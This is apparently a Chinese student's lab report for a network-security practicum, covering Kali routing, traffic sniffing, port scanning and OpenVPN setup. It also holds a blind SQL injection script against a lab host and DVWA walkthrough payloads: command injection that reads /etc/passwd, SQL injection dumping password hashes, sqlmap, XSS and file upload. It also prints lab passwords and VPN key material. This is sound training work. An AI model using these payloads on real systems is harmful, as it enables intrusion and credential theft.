


综合实践VI  

**user:** kali  

**passwd:** LIKAUBUNTU  **默认密码**：123456

**Update in 25/5/13: 网关IP更新为172.17.220.239 Passwd：kaliubuntu**  

## kali  

1.假设172.17.4.24是一台网关，请配置kali服务器，使得从kali服务器可以访问http://172.30.0.2,并给出主要命令，截图为证。

```bash
# Dstip = 172.30.0.2 172.17.4.24 = gateway eth0 = interface
$ sudo ip route add 172.30.0.2 via 172.17.4.24 dev eth0    
```


---

2.请配置kali服务器，使得从你的PC客户端可以访问http://172.30.0.2,并给出主要命令，截图为证。

```bash
# 在主机上打开powershell输入
ssh -L 1088:web服务器IP:80 kali@kali的IP
# eg. ssh -L 1088:172.30.0.2:80 kali@172.17.186.76
```


---

3.请监听访问http://172.30.0.2的流量，并在流量中找出用户在客户端的输入，截图为证。  

```bash
# listening streaming from/to 172.30.0.2
$ sudo tcpdump -A host 172.30.0.2
```


---

4.

（1）目标主机172.30.0.2在1~100间开放的端口共有 (2)个  

```bash
# nmap scan open ports
$ nmap -p 1-100 172.30.0.2
```

（2）目标主机172.30.0.2存在SQL注入漏洞，经过漏洞利用，查得其中的FLAG为：(VMC{WELCOME}) 。

```python
# 先打开浏览器进入http://173.30.0.2
# 然后输入username = admin'# password = 1 返回的是【用户存在！】说明admin在数据库中
# 并且题目也说明了是要“Hack admin password & Get flag”
# 可以采用sql盲注的方式
# 下面是示例python代码

import requests

# 目标URL 替换为指定的IP
target_url = "http://172.30.0.2/"

# 管理员用户名
admin_username = "admin"

# 初始化密码变量
admin_password = ""

# 获取管理员密码长度
for length in range(1, 50):  # 假设密码长度不超过50
    payload = {
        'username': admin_username,
        'password': f"123' OR LENGTH(password)={length}#"
    }
    response = requests.post(target_url, data=payload)
    
    if "用户存在！" in response.text.split('\n', 1)[0]: # 用户存在！在返回报文的第一行
        password_length = length
        print(f"Password length: {password_length}")
        # print(response.text)
        break

# 猜测密码每个字符
for i in range(1, password_length + 1):
    for char in " !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~":
        payload = {
            'username': admin_username,
            'password': f"123' OR SUBSTRING(password,{i},1)='{char}'#"
        }
        response = requests.post(target_url, data=payload)

        if "用户存在！" in response.text.split('\n', 1)[0]: # 用户存在！在返回报文的第一行
            admin_password += char
            print(f"Current password: {admin_password}")
            break

print(f"username: {admin_username} \npassword: {admin_password}")


# 即可得到如下输出
"""
    Password length: 12
    Current password: V
    Current password: VM
    Current password: VMC
    Current password: VMC{
    Current password: VMC{W
    Current password: VMC{WE
    Current password: VMC{WEL
    Current password: VMC{WELC
    Current password: VMC{WELCO
    Current password: VMC{WELCOM
    Current password: VMC{WELCOME
    Current password: VMC{WELCOME}
    username: admin 
    password: VMC{WELCOME}
"""
# 得出用户名为admin，密码即flag为VMC{WELCOME}
# 测试显示【用户存在！】
```


5.请在kali服务器内安装openvpn,并配置PC客户端openvpn，以便可以访问http://172.30.0.2,试分析访问172.30.0.2过程中哪些线路是被加密保护了。截图为证。 

```bash
# 在kai上输入如下命令
# 1.下载easy-rsa 生成证书
sudo apt update
sudo apt install easy-rsa
make-cadir ~/ca
cd ~/ca
./easyrsa init-pki
./easyrsa build-ca
./easyrsa gen-req server nopass	#默认名字server
./easyrsa sign-req server server #需要输入build-ca输入的密码
./easyrsa gen-dh  --bits 4096
openvpn --genkey secret ta.key
sudo cp ta.key /etc/openvpn
cd pki
sudo cp dh.pem /etc/openvpn
sudo cp ca.crt /etc/openvpn
cd issued
sudo cp server.crt /etc/openvpn
cd ..
cd private
sudo cp server.key /etc/openvpn
# 2.生成server.conf文件
cd /etc/openvpn
sudo nano server.conf
# 在sercer.conf中输入如下内容
############################### start
port 1194
proto udp
dev tun
server 192.168.254.0 255.255.255.0 # 定义客户端 IP 地址池
ca ca.crt
cert server.crt
key server.key
dh dh.pem
tls-auth ta.key 0
cipher AES-256-CBC
verify-client-cert none
script-security 3
auth-user-pass-verify /etc/openvpn/chkpwd.sh via-env
username-as-common-name # 用用户名标识客户端（可选）
push "route 172.30.0.2 255.255.255.255" # 推送目标路由
keepalive 10 120
persist-key
persist-tun
status /var/log/openvpn/status.log
verb 3
############################### end

# 3.生成chkpwd.sh文件
sudo nano chkpwd.sh
# 输入如下内容
############################### start
#!/bin/bash

# 脚本参数说明：
PASSFILE="/etc/openvpn/up.txt"  # 密码文件 用户名 密码明文
TIME_STAMP=$(date "+%Y-%m-%d %T")

if [ ! -r "${PASSFILE}" ]; then
    echo "${TIME_STAMP}: Could not open password file \"${PASSFILE}\" for reading."
    exit 1
fi

username="$1"
password="$2"

CORRECT_PASSWORD=$(awk -v user="${username}" '!/^;/ && !/^#/ && $1 == user {print $2; exit}' "${PASSFILE}")

if [ "${CORRECT_PASSWORD}" = "" ]; then
    echo "${TIME_STAMP}: User does not exist: username=\"${username}\", password=\"${password}\"."
    exit 1
fi

if [ "${password}" = "${CORRECT_PASSWORD}" ]; then
    echo "${TIME_STAMP}: Successful authentication: username=\"${username}\"."
    exit 0
fi

echo "${TIME_STAMP}: Incorrect password: username=\"${username}\", password=\"${password}\"."
exit 1
############################### end

# 4. 生成up.txt文件
sudo nano up.txt
# 输入如下内容
############################### start
user1 password1
user2 password2
############################### end

# 5. 配置防火墙进行转发
sudo sysctl -w net.ipv4.ip_forward=1
#
sudo iptables -t nat -A POSTROUTING -s 192.168.254.0/24 -o eth0 -j MASQUERADE

# 6. 修改chkpwd.sh 文件属性
sudo chmod 777 chkpwd.sh

# 7. 启动openvpn
sudo systemctl start openvpn@server.service


# 8. 客户端的配置
# 写入client.ovpn 文件如下内容
############################### start
client
dev tun
proto udp
remote 172.17.186.76 1194 # 服务器IP和端口
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
<ca>
-----BEGIN CERTIFICATE-----
MIIDSzCCAjOgAwIBAgIUCyGsg2ciq/woSKmqDzMrm69SYB4wDQYJKoZIhvcNAQEL
BQAwFjEUMBIGA1UEAwwLRWFzeS1SU0EgQ0EwHhcNMjUwNTEzMDM0MDIxWhcNMzUw
NTExMDM0MDIxWjAWMRQwEgYDVQQDDAtFYXN5LVJTQSBDQTCCASIwDQYJKoZIhvcN
AQEBBQADggEPADCCAQoCggEBAI8rlEOHIm1SeU3v53O2xFKuXWvn9OkDKIs09URs
eYvHKP9eeqskbCO1GpbBvg0evFo0Yfm7w2clf35zTf0MLuewMuuVonY29tNASD2c
SZTg/RxpZ62t+WzyZHDZn2S+eXUZ+B7+8CQHYsCXNjJRbFBPtccJWF4m9kX97EZV
cbO82CVYzdXh8EETvpWB6vizpge/XYc+Ox+JgHV0gaLItbXEnKp6g+LnIGbcwbuA
RDHTp6HKekBOfubLE3Z/MkEPkK+3+LA90bkljGB8DFrlFDYJynNc4Q6ufWUJC56A
s/o9tqExQLUXQxcUVpOvyKIx6vYPi9zT6UKLZrc9MFXi3TUCAwEAAaOBkDCBjTAM
BgNVHRMEBTADAQH/MB0GA1UdDgQWBBR8WmbLsELKtqaLPsu9IrmEGiL6BzBRBgNV
HSMESjBIgBR8WmbLsELKtqaLPsu9IrmEGiL6B6EapBgwFjEUMBIGA1UEAwwLRWFz
eS1SU0EgQ0GCFAshrINnIqv8KEipqg8zK5uvUmAeMAsGA1UdDwQEAwIBBjANBgkq
hkiG9w0BAQsFAAOCAQEAgBbvn6xx/eEi6iWHTfJiW1tLldj3Wnt3dCz0JOec5+ab
VMQL+ixnCjIlzTxiDGLLEIw/VQ0nP4qM6vSCb1plyiMwT8HGB7SxPD3Pqd6ur/er
MTRRy6j6vsJ967SuGr/avh5WWQrHP6OzCYXuX79c/IyA+68sDlf75ZQ5IitEYgux
qLWMNzqPPwsKP5Zv8f9CmJR5bIxKJI+52ovTYeF5IHcsjZbbPDa3D2MCUFOQm3WM
uuAJg8Lz+IY4b+Geb6t+1QU3CY8VMzGHRhnh/IXGMov4/dwDxwBAccFB1jn8SLKr
dfg6wSNysCtbXPpPh6fC/D0W/YQez+5FcVJDhuXGiA==
-----END CERTIFICATE-----
</ca>
<tls-auth>
#
# 2048 bit OpenVPN static key
#
-----BEGIN OpenVPN Static key V1-----
9779d26513a8c0007cb6170f33692503
385fb911c4981243bcd45e1c081918d5
43a573d5d24299f219c60cfc656dac1e
dfa55fb77fdb5dd615e40055b3ec4022
0f0e3c3631eedb60d19ae6d773155837
f2bbd2ced6ed555877178d7cd2033b2f
3979db15a41b794ff64625f203ab6feb
8e521abbaab2054ee009d1f76e472465
9484310af4e6e752a7d5ead4d5036ef8
d3c21c43cb6c81515f4344e3b0e0a88f
6d2cf5893764ada14dddb6a2e6afd742
e292858afca08064c5cea38f26cf3a34
01428bb0712de074a574deaa057246e3
3aa9a696baed8d56d96884b90e590a82
ea10e50c8a043a2fec8e0c912320da46
4a5f81111388f98a701b914ea264e8f6
-----END OpenVPN Static key V1-----
</tls-auth>
key-direction 1
verb 3
auth-user-pass
############################### end

# 其中<ca></ca>以及<tls-auth></tls-auth>中间的内容，分别是 kali上 ca.crt 和ta.key 中的内容。
# 以下IP地址需替换成本人实验环境中kali Linux的IP地址。
# remote 172.17.43.176 1194 # 服务器IP和端口
```


## 1.请闯关DVWA靶机，贴图为证。

## - [DVWA 入门靶场学习记录 | 国光](https://www.sqlsec.com/2020/05/dvwa.html#High-1)  

## - [dvwa靶场通关教程（保姆及教学，一看就会）_dvwa通关教程-CSDN博客](https://blog.csdn.net/m0_69043895/article/details/137386296)  

## - [DVWA 通关教程 - 博客](https://skywt.cn/blog/dvwa-tutorial)  

1. **Vulnerability: Brute Force**

| Level | Username | Password |
| ----- | -------- | -------- |
| low   | admin'#  | anything |


2.**Vulnerability: Command Injection**    

| Level | Enter an IP address:        |
| ----- | --------------------------- |
| low   | 123 \|\| cat /etc/passwd    |
| high  | 127.0.0.1 \|cat /etc/passwd |


3. **Vulnerability: Cross Site Request Forgery (CSRF)**

**Level: Low**  


4. **Vulnerability: File Inclusion**  

**Level Low**  


5. **Vulnerability: File Upload**  

**Level low**

```php
# filename:test.php
<?php phpinfo();?>
```

然后上传该文件，访问**yourip:port/dvwa/vulnerabilities/upload/../../hackable/uploads/test.php**  


6. **Vulnerability: SQL Injection**   

**Level: High**

**Input:**  ```-2' union select 1,(SELECT GROUP_CONCAT(user,password SEPARATOR 0x3c62723e) FROM users)#```


7. **Vulnerability: SQL Injection (Blind)**  

**Level: High**

使用kali虚拟机自带的sqlmap工具,`sqlmap -u "http://ip:port/dvwa/vulnerabilities/sqli_blind/" --cookie="id=1*; 
 PHPSESSID=b2g89kkbs4b3rlr5napq2uk3am; security=high" --dbms=MySQL --technique=B --random-agent --flush-session -v 3`  

其中cookie字段的PHPSESSID需要按*F12*自行查看  


8. **Vulnerability: Weak Session IDs**  

**Level: High**  
使用了MD5加密**SESSIONID**  


9. **Vulnerability: DOM Based Cross Site Scripting (XSS)**  

**Level High**  

在URL中加入如下字段

```
?default=English&a=<input onclick=alert('XSS') />
```


10. **Vulnerability: Reflected Cross Site Scripting (XSS)**  

**Level: High**  

在输入框输入如下标签

```

```


11. **Vulnerability: Stored Cross Site Scripting (XSS)**  

**Level: High**

修改前端**maxlength**字段为100，不然name的输入会被截断。



| name        |  |
| ----------- | -------------------------------- |
| **Message** | **anything**                     |


12. **Vulnerability: Content Security Policy (CSP) Bypass**  

**Level: Low**  

输入`https://digi.ninja/dvwa/alert.js`


13. **Vulnerability: JavaScript Attacks**  

**Level: Low**  


14. **Vulnerability: Authorisation Bypass** 

**Level: Low**  

使用`gordonb/abc123`作为普通用户登录，然后访问隐藏的web页面进行修改。



15. **Vulnerability: Open HTTP Redirect**  

**Level: High**  

```bash
# 由于只做了info.php字符串的验证，输入如下URL即可跳转到baidu
http://172.17.0.15:12234/dvwa/vulnerabilities/open_redirect/source/high.php?redirect=https://www.baidu.com?a=info.php
```


16. **Vulnerability: Cryptography Problems**  


17. **Vulnerability: API Security**  

显示如下信息:

> ***Warning, composer has not been run.***
> See the [README](https://github.com/digininja/DVWA/blob/master/README.md#vendor-files) for more information.

